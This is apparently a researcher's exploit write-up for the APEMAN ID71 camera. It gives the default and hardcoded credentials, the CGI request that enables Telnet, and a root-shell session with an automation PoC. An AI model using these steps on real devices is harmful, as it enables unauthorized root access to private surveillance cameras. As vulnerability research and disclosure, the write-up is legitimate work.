

### APEMAN ID71 — RCE

This guide shows how to exploit an endpoint that allows you to enable the Telnet service on the camera using an HTTP CGI request, and then gain RCE over Telnet with known default credentials.

The camera ships with default credentials `admin:888888`. Additionally, if those credentials are changed, you can connect to the UART interface and it will leak the credentials so you can then log in.

While trying multiple exploit methods, I couldn't find any for this camera, so I started reverse engineering it and extracted all CGI endpoints from the binary that runs the camera.

Once I had all the endpoints, I created a Python script to enumerate each endpoint and display its output.

``` 
python makemyday.py --server 127.0.0.1 --port 9999 --findcgi-prefix "" findcgi --wordlist list.txt                          
Found CGI at wifi_scan.cgi?loginuse=admin&loginpas=888888                                                                         
Found CGI at camera_control.cgi?loginuse=admin&loginpas=888888                                                                    
Found CGI at set_users.cgi?loginuse=admin&loginpas=888888                                                                         
Found CGI at set_datetime.cgi?loginuse=admin&loginpas=888888                                                                      
Found CGI at upgrade_firmware.cgi?loginuse=admin&loginpas=888888                                                                  
Found CGI at decoder_control.cgi?loginuse=admin&loginpas=888888                                                                   
Found CGI at camera_control.cgi?loginuse=admin&loginpas=888888                                                                    
Found CGI at get_status.cgi?loginuse=admin&loginpas=888888                                                                        
Found CGI at get_params.cgi?loginuse=admin&loginpas=888888                                                                        
Found CGI at get_camera_params.cgi?loginuse=admin&loginpas=888888                                                                 
Found CGI at get_log.cgi?loginuse=admin&loginpas=888888                                                                           
Found CGI at get_misc.cgi?loginuse=admin&loginpas=888888                                                                          
Found CGI at get_record.cgi?loginuse=admin&loginpas=888888                                                                        
Found CGI at get_record_file.cgi?loginuse=admin&loginpas=888888                                                                   
Found CGI at get_wifi_scan_result.cgi?loginuse=admin&loginpas=888888
....
Found CGI at set_test_auto_upgrade.cgi?loginuse=admin&loginpas=888888
Found CGI at trans_cmd_string.cgi?loginuse=admin&loginpas=888888                                                                  
Found CGI at get_sensor_preset.cgi?loginuse=admin&loginpas=888888 
```

I noticed the `trans_cmd_string` endpoint. The `cmd` parameter caught my attention, so I analyzed the request and response:

```
REQUEST:
GET /trans_cmd_string.cgi?loginuse=admin&loginpas=888888 HTTP/1.1

Host: 10.99.99.151:12925
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:128.0) Gecko/20100101 Firefox/128.0
```

```
RESPONSE:
HTTP/1.1 200 OK

Date: Mon Oct  6 00:05:40 2025
Server: GoAhead-Webs
Last-modified: Thu Jan  1 00:00:08 1970
Content-type: text/html
Cache-Control:no-cache
Content-length: 0
Connection: close


```

I then added the parameter `cmd=id` and got this response:

```
GET /trans_cmd_string.cgi?loginuse=admin&loginpas=888888&cmd=id HTTP/1.1

Host: 10.99.99.151:12925
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:128.0) Gecko/20100101 Firefox/128.0

RESPONSE:
HTTP/1.1 200 OK

Date: Mon Oct  6 00:07:17 2025
Server: GoAhead-Webs
...

var cmd=3;
```

Interesting. I searched the Internet for this endpoint and found a [GitHub discussion](https://github.com/themactep/thingino-firmware/issues/612#issuecomment-2803136182) noting that using the following parameters enables Telnet:

```
GET /trans_cmd_string.cgi?loginuse=admin&loginpas=888888&cmd=2101&command=1 HTTP/1.1
```

I tested it, and it worked, the Telnet port opened:

``` 
$ telnet 10.99.99.151                                        
Trying 10.99.99.151...                                           
Connected to 10.99.99.151.                                       
Escape character is '^]'.                                        
(none) login:
```

Because these credentials are publicly known (`vstarcam2017:20170912`), I used them to obtain a root shell:

```bash
telnet 10.99.99.151
Trying 10.99.99.151...
Connected to 10.99.99.151.
Escape character is '^]'.
(none) login: vstarcam2017
Password: 
Welcome to HiLinux.
# id
uid=0(vstarcam2017) gid=0(root) groups=0(root)
```

I created a Python script [RCE_apeman_id71.py](https://github.com/juliourena/APEMAN-Camera-PoCs/blob/main/RCE/RCE_apeman_id71.py) to automate this attack:

```bash
python rce_apeman_id71.py --host 10.99.99.151 --port 12925 --loginuse admin --loginpas 888888 --tn-user vstarcam2017 --tn-pass 20170912 --command "id;ifconfig"
[+] Enabling Telnet via CGI ...
[+] CGI enable Telnet response: HTTP 200
[+] Connecting to Telnet at 10.99.99.151:23 ...

Welcome to HiLinux.
# id;ifconfig
uid=0(vstarcam2017) gid=0(root) groups=0(root)
eth0      Link encap:Ethernet  HWaddr 28:AD:3E:3B:B9:21
          inet addr:10.99.99.151  Bcast:10.99.99.255  Mask:255.255.255.0
          inet6 addr: fe80::2aad:3eff:fe3b:b921/64 Scope:Link
          UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
          RX packets:1977 errors:0 dropped:1593 overruns:0 frame:0
          TX packets:384 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1000
          RX bytes:102190 (99.7 KiB)  TX bytes:38809 (37.8 KiB)

lo        Link encap:Local Loopback
          inet addr:127.0.0.1  Mask:255.0.0.0
          inet6 addr: ::1/128 Scope:Host
          UP LOOPBACK RUNNING  MTU:16436  Metric:1
          RX packets:3 errors:0 dropped:0 overruns:0 frame:0
          TX packets:3 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:0
          RX bytes:3168 (3.0 KiB)  TX bytes:3168 (3.0 KiB)

# exit
```


